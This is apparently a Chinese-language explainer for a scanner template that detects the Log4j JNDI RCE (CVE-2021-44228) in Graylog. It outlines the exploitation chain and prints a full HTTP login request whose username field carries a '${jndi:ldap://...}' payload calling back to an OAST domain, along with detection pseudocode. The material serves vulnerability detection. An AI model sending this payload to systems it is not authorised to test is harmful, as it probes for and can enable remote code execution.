 # Graylog - Log4j JNDI RCE 漏洞（CVE-2021-44228）探测原理说明

## 1. 漏洞简介

Graylog 存在 Apache Log4j JNDI 注入远程代码执行漏洞（CVE-2021-44228）。攻击者可通过构造恶意请求，远程执行任意代码，危害系统安全。

## 2. 影响范围

- 受影响产品：Graylog（使用受影响 Log4j 版本）
- 只要日志、参数或配置中存在用户可控内容，均可能被利用

## 3. 漏洞原理

Log4j2 在处理日志消息时支持 JNDI 查找。攻击者可通过注入特殊payload，诱使 Log4j2 访问恶意JNDI服务器（如LDAP），加载并执行远程代码。

## 4. 利用方式与攻击流程

1. 攻击者搭建恶意LDAP服务器，返回恶意Java类。
2. 构造带有JNDI payload的HTTP请求，发送到Graylog接口。
3. 日志记录参数时，Log4j2解析payload，触发JNDI查找，访问攻击者LDAP服务器。
4. 恶意Java类被加载并执行，实现RCE。

## 5. 探测原理与流程（yaml 规则详细说明）

该yaml规则利用OAST/DNSLog平台（如Interactsh）进行无害化探测，流程如下：

### 5.1 探测请求的构造

- 发送POST请求到如下接口：
  ```
  POST /api/system/sessions HTTP/1.1
  Host: <目标主机>
  Accept: application/json
  X-Requested-With: XMLHttpRequest
  X-Requested-By: XMLHttpRequest
  Content-Type: application/json
  Origin: <BaseURL>
  Referer: <BaseURL>

  {"username":"${jndi:ldap://${:-<rand1>}${:-<rand2>}.${hostName}.username.<interactsh-url>}","password":"admin","host":"<目标主机>"}
  ```
  - <rand1>、<rand2>为随机数，<interactsh-url>为OAST平台生成的唯一域名。

### 5.2 预期响应与交互

- **HTTP响应内容**：
  - 响应头需包含`X-Graylog-Node-Id`，确认为Graylog接口。
- **OAST平台交互**：
  - 若目标存在漏洞，Log4j2解析payload时会向OAST域名发起DNS查询，OAST平台记录该行为。

### 5.3 判定逻辑

- 只有当：
  1. HTTP响应头中包含`X-Graylog-Node-Id`，
  2. OAST平台收到带有对应随机标识的DNS查询，
  3. DNS查询格式与payload匹配，
  才判定目标存在Log4j JNDI RCE漏洞。

- **判定流程伪代码**：
  ```pseudo
  rand1, rand2 = 随机生成
  payload = '${jndi:ldap://${:-{rand1}}${:-{rand2}}.{hostName}.username.<oast-domain>}'
  发送POST /api/system/sessions，username字段为payload
  等待OAST平台回调
  若DNS查询中包含rand1, rand2, hostName，且响应头含X-Graylog-Node-Id：
      判定目标存在漏洞
  ```

- **流程图**：
  ```mermaid
  graph TD
      A[发送带payload的POST请求到/api/system/sessions] --> B{响应头含X-Graylog-Node-Id?}
      B -- 否 --> F[非目标, 终止]
      B -- 是 --> C[等待OAST平台DNS回显]
      C --> D{DNS查询中含随机标识?}
      D -- 否 --> F
      D -- 是 --> E[判定目标存在Log4j JNDI RCE漏洞]
  ```

通过上述流程，既保证了探测的准确性，也避免了对目标系统的实际危害。

## 6. 参考链接

- [Graylog官方公告](https://www.graylog.org/post/graylog-update-for-log4j)
- [Log4j 官方安全公告](https://logging.apache.org/log4j/2.x/security.html)
- [CVE-2021-44228 NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) 